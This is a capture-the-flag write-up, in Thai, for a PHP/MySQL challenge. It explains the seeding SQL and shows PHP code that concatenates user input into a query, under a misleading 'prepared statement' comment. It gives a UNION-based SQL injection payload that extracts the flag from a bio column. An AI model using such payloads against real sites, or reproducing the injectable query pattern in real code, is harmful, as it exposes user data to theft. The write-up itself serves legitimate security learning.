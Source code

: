 # too-many-admins

ข้อนี้เราจะได้ไฟล์โปรเจคมา

## วิเคราะห์ dump.sql
```sql
-- Create the 'users' table
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);

-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;
```

วิเคราะห์คร่าวๆก็คือว่า มันจะสร้าง account มา 500 ตัว ซึ่งตัวที่ {SOME_NUMBER} จะมี flag อยู่ใน bio


## วิเคราะห์ index.php
```php
...
$userParam = $_GET['user'];
// Use prepared statement to prevent SQL injection
if ($userParam) {
    if ($userParam != "all") {
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);
    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";
    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>" . $i . "</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }
    echo "</table>";
}
...
```
คร่าวๆคือเราจะพบว่ามันสามารถ sql injection ได้
~แจ๋วสิครับ ซึ่งแนวคิด inject ก็ง่ายๆ โค้ด sql เดิมๆมันจะ select username, password, bio และก็จะแสดงผล แค่ username, password ซึ่ง flag มันอยู่ที่ bio ของ account ใครสักคน
ผมก็เลย UNION account ที่มี flag อยู่ใน bio ด้วยคำสั่ง LIKE และแทนที่ bio ลงไปใน column username เพื่อให้มันแสดงผลออกมา

payload ก็จะได้เป็นประมาณนี้

```sql
' UNION SELECT bio as username, 'b' as password, 'b' as bio FROM users WHERE bio LIKE 'flag{%';-- -
```

ครับได้ flag

![flag](flag.png)

